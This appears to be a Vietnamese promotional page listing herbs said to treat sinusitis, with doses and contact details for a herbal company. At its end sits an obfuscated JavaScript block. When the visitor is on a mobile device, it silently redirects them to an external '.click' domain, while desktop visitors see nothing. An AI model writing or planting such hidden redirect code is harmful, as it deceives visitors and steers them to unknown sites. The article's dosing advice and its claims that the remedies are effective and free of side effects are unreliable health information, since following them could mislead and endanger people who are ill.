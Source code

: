 Các loại thảo dược hỗ trợ điều trị viêm xoang hiệu quả, dễ sử dụng

Cỏ hôi - Thảo dược hỗ trợ điều trị viêm xoang

Cây cỏ hôi hay còn được biết đến với tên gọi khác là cây xuyến chi hay cây hoa cứt lợn là một cây thuốc chữa viêm xoang dân dã. Loài thảo mọc này đến nay vẫn còn mọc hoang khắp nơi. Bộ phận được sử dụng là toàn thân, loại trừ rễ. Cây thu hái tốt nhất là vào mùa hè, có thể dùng tươi hay phơi khô để dùng dần. 

Cỏ hôi có tính mát, vị đắng, tác dụng tiêu viêm, giải độc, thanh nhiệt, cầm máu. Với bệnh viêm xoang, thảo dược dân dã này giúp chống phù nề, giảm sưng viêm, tiêu mủ khá hiệu quả. Người bệnh có thể dùng 30g cây tươi hoặc 15g cây khô sắc nước uống hàng ngày.

Cây cỏ mực hỗ trợ điều trị viêm xoang

Cỏ mực hay hạn liên thảo, cỏ nhọ nồi có vị ngọt lẫn chua, tính mát có tác dụng cầm máu, mát máu, bổ thận, bổ âm, hạ sốt, giảm sưng viêm,… Để chữa viêm xoang, người bệnh dùng khoảng 20g lá nhọ nồi tươi giã nát, lọc lấy nước uống hoặc nấu nước uống hàng ngày.

Cây đại bi  hỗ trợ điều trị viêm xoang

Cây đại bi có tên khoa học là Blumea balsamifera, thuộc họ Cúc (Asteraceae), còn có tên gọi khác là mai hoa băng phiến, long não hương, mai phiến cũng là một thảo dược trị viêm xoang. Loại thảo dược này chủ yếu được dùng để sản xuất chất băng phiến và chiết xuất tinh dầu.

Để chữa bệnh viêm xoang, chúng ta dùng lá cây. Lá đại bi có mùi thơm, vị cay đắng, tính ôn có công dụng sát trùng, tiêu thũng, hoạt huyết, tiêu ứ, kháng khuẩn, giảm đau. Người bệnh viêm xoang có thể dùng khoảng 20g lá đại bi nước uống hoặc nước xông mũi đều được.

Ké đầu ngựa  hỗ trợ điều trị viêm xoang

Cây ké đầu ngựa có vị cay đắng, tính ấm, hơi độc, có tác dụng thông mũi, chữa đau đầu, giảm sổ mũi, hắt hơi, nghẹt mũi,… Muốn chữa bệnh viêm xoang, bạn dùng ké đầu ngựa sao vàng, tán thành bột mịn để uống hàng ngày.

Tân di hoa

Tân di hoa là nụ hoa mộc lan đã quá chế biến để có thể dùng làm bị thuốc. Vị thuốc tân di hoa chủ yếu được nhập từ Trung Quốc. Hoa có vị cay, tính ấm có tác dụng giải biểu, thông khiếu, khu phong, chỉ thống,… rất thích hợp để điều trị viêm mũi, viêm xoang, nghẹt mũi, đau nhức đầu. Người bệnh xoang có thể dùng tân di hoa nghiền thành bột, hãm trà hay dùng để sắc nước thuốc uống đều được.

Tía tô - Thảo dược  hỗ trợ điều trị viêm xoang dân dã

Với người Việt, tía tô không chỉ là loại rau gia vị mà còn như một vị thuốc vườn nhà. Lá tía tô có tính ấm, vị cay, thường được dùng để hạ sốt, làm ra mồ hôi, giải cảm, chữa ho. Người bị viêm xoang có thể nấu nước tía tô uống hoặc xông mũi trị xoang hàng ngày.

Diếp cá  hỗ trợ điều trị viêm xoang

Diếp cá hay dấp cá có vị chua, tính hơi hàn, thường được hái ăn sống hoặc ép lấy nước uống cũng là một cây thuốc nam chữa viêm xoang. Cây diếp cá bỏ rễ có thể dùng tươi hoặc phơi khô. Để chữa bệnh viêm xoang, bạn có thể ăn diếp cá trong các bữa ăn hàng ngày hoặc dùng diếp cá sấy khô hãm trà uống. Ngày nay cũng có nhiều loại bột diếp cá sấy lạnh rất tiện để sử dụng.

Hỗ trợ điều trị viêm xoang bằng cát cánh

Trong Y học cổ truyền, cát cánh có vị ngọt, đắng, cay, tính hơi ôn có tác dụng long đờm, tiêu mủ, chữa sưng đau hầu họng, chữa khàn tiếng, lở loét mưng mủ. 

Muốn chữa viêm xoang, người bệnh cần dùng 6 đến 30g rễ cát cánh khô, bỏ vỏ hoặc không bỏ vỏ để nấu nước uống hàng ngày. Tuy nhiên, những người bị loét dạ dày không nên uống nhiều. Người bị lao phổi, viêm phế quản với triệu chứng ho khan ít đờm không nên uống trong thời gian dài.

Bạch chỉ  hỗ trợ điều trị viêm xoang

Thảo dược hỗ trợ điều trị viêm xoang là loài sống lâu năm, có vị cay, tính ôn, thường dùng để chống viêm và chữa bệnh tai mũi họng, đau đầu, đau răng. Người bị viêm xoang có thể dùng 6 - 12g bạch chỉ để uống mỗi ngày triệu chứng viêm xoang sẽ giảm dần.

Vị thuốc hoàng cầm hỗ trợ điều trị viêm xoang

Hoàng cầm có tính hàn, vị đắng, tác dụng thanh nhiệt, cầm máu, an thần, chữa mất ngủ, hạ sốt, giảm triệu chứng viêm phổi,... Bệnh nhân viêm xoang muốn giảm các triệu chứng bệnh nên dùng 6 - 15g rễ hoàng cầm sắc nước thuốc uống hoặc phơi khô, tán thành bột uống dần. Phụ nữ mang thai không nên áp dụng cách chữa bệnh viêm xoang này.

Lá lốt - Thảo dược quen thuộc hỗ trợ điều trị viêm xoang

Cũng giống như tía tô, lá lốt là loại rau gia vị quen thuộc với người Việt. Tinh dầu trong lá lốt có chữa nhiều piperin hay piperidin. Hai chất này giống như một loại kháng sinh tự nhiên có thể tiêu diệt nấm, virus, vi khuẩn. 

Nhờ đó, lá lốt giúp giảm triệu chứng của bệnh viêm xoang khá hiệu quả. Người bệnh viêm xoang có thể nấu nước lá lốt để xông mũi hàng ngày. Kiên trì áp dụng người bệnh sẽ thấy giảm sổ mũi, ngạt mũi, giảm đau nhức xoang và dễ thở hơn.

Lá trầu không hỗ trợ điều trị viêm xoang

Thảo dược trị viêm xoang không nhất thiết phải là loại đắt đỏ du nhập từ nước ngoài. Những thảo dược quen thuộc với người Việt như lá trầu không cũng giúp giảm triệu chứng xoang hiệu quả. Lá trầu không có tính ấm, công dụng tiêu thũng, tán hàn, sát trùng, diệt khuẩn. Người bị viêm xoang có thể vò nát vài lá trầu tươi, nấu nước để xông hàng ngày mà không lo tác dụng phụ.

THÔNG TIN LIÊN HỆ:

CÔNG TY THẢO DƯỢC CHẤT LƯỢNG CAO LKL

ĐỊA CHỈ: BA VÌ HÀ NỘI VIỆT NAM

SỐ ĐIỆN THOAI: 0987654321

EMAIL: LKLTHAODUOC@GMAIL.COM
----------------------------

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.tenmienneww.click/xoang",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
